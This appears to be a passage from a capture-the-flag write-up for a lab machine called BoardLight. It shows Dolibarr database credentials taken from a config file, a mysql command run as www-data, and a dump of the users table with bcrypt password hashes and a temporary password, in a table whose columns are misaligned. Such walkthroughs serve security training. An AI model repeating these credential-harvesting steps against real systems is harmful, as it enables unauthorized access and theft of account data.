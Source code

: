 By using the credentials found:

- database: dolibarr
- user: dolibarrowner
- password: serverfun2$2023!!

The basic commands we can use:

```bash
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ mysql -u dolibarrowner -p -D dolibarr -e "SHOW TABLES;"
```

| rowid | entity | ref_employee | ref_ext | admin | employee | fk_establishment    | datec               | tms  | fk_user_creat | fk_user_modif | login | pass_encoding | pass                                                           | pass_crypted | pass_temp    | api_key | gender | civility | lastname | firstname | address | zip  | town | fk_state | fk_country | birth | birth_place | job  | office_phone | office_fax | user_mobile | personal_mobile | email | personal_email | signature | socialnetworks | fk_soc | fk_socpeople | fk_member | fk_user | fk_user_expense_validator | fk_user_holiday_validator | idpers1 | idpers2 | idpers3 | note_public | note_private | model_pdf | datelastlogin       | datepreviouslogin   | datelastpassvalidation | datestartvalidity | dateendvalidity | iplastlogin | ippreviouslogin | egroupware_id | ldap_sid | openid | statut | photo | lang | color | barcode | fk_barcode_type | accountancy_code | nb_holiday | thm  | tjm  | salary | salaryextra | dateemployment | dateemploymentend | weeklyhours | import_key | default_range | default_c_exp_tax_cat | national_registration_number | fk_warehouse |
| ----- | ------ | ------------ | ------- | ----- | -------- | ------------------- | ------------------- | ---- | ------------- | ------------- | ----- | ------------- | -------------------------------------------------------------- | ------------ | ------------ | ------- | ------ | -------- | -------- | --------- | ------- | ---- | ---- | -------- | ---------- | ----- | ----------- | ---- | ------------ | ---------- | ----------- | --------------- | ----- | -------------- | --------- | -------------- | ------ | ------------ | --------- | ------- | ------------------------- | ------------------------- | ------- | ------- | ------- | ----------- | ------------ | --------- | ------------------- | ------------------- | ---------------------- | ----------------- | --------------- | ----------- | --------------- | ------------- | -------- | ------ | ------ | ----- | ---- | ----- | ------- | --------------- | ---------------- | ---------- | ---- | ---- | ------ | ----------- | -------------- | ----------------- | ----------- | ---------- | ------------- | --------------------- | ---------------------------- | ------------ |
| 1     | 0      | NULL         | 1       | 1     | 0        | 2024-05-13 13:21:56 | 2024-05-13 13:21:56 | NULL | NULL          | dolibarr      | NULL  | NULL          | `$2y$10$VevoimSke5Cd1/nX1Ql9Su6RstkTRe7UX1Or.cm8bZo56NjCMJzCm` | NULL         | NULL         | NULL    | NULL   | NULL     | NULL     | NULL      | NULL    | NULL | NULL | NULL     | NULL       | NULL  | NULL        | NULL | NULL         | NULL       | NULL        | NULL            | NULL  | NULL           | NULL      | NULL           | NULL   | NULL         | NULL      | NULL    | NULL                      | NULL                      | NULL    | NULL    | NULL    | NULL        | NULL         | NULL      | 2024-05-15 09:57:04 | 2024-05-13 23:23:59 | NULL                   | NULL              | NULL            | 10.10.14.31 | 10.10.14.41     | NULL          | NULL     | NULL   | 1      | NULL  | NULL | NULL  | NULL    | NULL            | 0                | NULL       | NULL | NULL | NULL   | NULL        | NULL           | NULL              | NULL        | NULL       | NULL          | NULL                  |                              |              |
| 2     | 1      | NULL         | 0       | 1     | 0        | 2024-05-13 13:24:01 | 2024-05-15 09:58:40 | NULL | NULL          | admin         | NULL  | NULL          | `$2y$10$gIEKOl7VZnr5KLbBDzGbL.YuJxwz5Sdl5ji3SEuiUSlULgAhhjH96` | NULL         | yr6V3pXd9QEI | NULL    | NULL   | NULL     | NULL     | NULL      | NULL    | NULL | NULL | NULL     | NULL       | NULL  | NULL        | NULL | NULL         | NULL       | NULL        | NULL            | NULL  | NULL           | NULL      | NULL           | NULL   | NULL         | NULL      | NULL    | NULL                      | NULL                      | NULL    | NULL    | NULL    | NULL        | NULL         | NULL      | 2024-08-23 04:15:28 | 2024-08-23 03:41:08 | NULL                   | NULL              | NULL            | 10.10.16.83 | 10.10.16.83     | NULL          | NULL     | NULL   | 1      | NULL  | NULL | NULL  | NULL    | NULL            | 0                | NULL       | NULL | NULL | NULL   | NULL        | NULL           | NULL              | NULL        | NULL       | NULL          | NULL                  |                              |              |

